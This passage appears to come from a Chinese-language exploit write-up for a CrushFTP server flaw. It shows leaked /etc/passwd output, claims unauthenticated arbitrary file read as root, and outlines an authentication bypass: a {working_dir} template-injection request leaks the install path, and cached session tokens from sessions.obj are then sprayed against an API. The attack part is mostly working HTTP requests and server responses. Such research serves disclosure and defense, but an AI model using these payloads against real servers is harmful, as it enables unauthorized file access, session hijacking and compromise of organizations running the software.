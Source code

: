 ```
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
fwupd-refresh:x:120:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:122:129::/var/lib/saned:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:124:131::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:126:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false

</response></commandResult>
```  
  
现在，我们已建立以 root 身份读取的未经身份验证的任意文件。  
### Authentication Bypass 身份验证绕过  
  
在 CrushFTP 中，用户会话令牌缓存在位于安装文件夹根目录中的序列化对象中。为了绕过身份验证，我们可以读取该文件，针对 getUsername  
 API 喷洒其中的所有会话令牌，然后通过实时特权令牌执行恶意操作。我们将使用 {working_dir}  
 模板注入有效负载来泄漏 CrushFTP 安装目录，然后利用它来拉取 sessions.obj  
 .  
```
POST /WebInterface/function/?command=zip&c2f=vndQ&path={working_dir}&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
```
HTTP/1.1 200 OK
Cache-Control: no-store
Pragma: no-cache
Content-Type: text/xml;charset=utf-8
Date: Mon, 22 Apr 2024 22:24:46 GMT
Server: CrushFTP HTTP Server
P3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Connection: close
Content-Length: 241

<?xml version="1.0" encoding="UTF-8"?> 

<commandResult><response>You need download, upload permissions to zip a file:/bbb
You need upload permissions to zip a file:/home/researcher/CrushFTP/CrushFTP10/
</response></commandResult>
```  
  
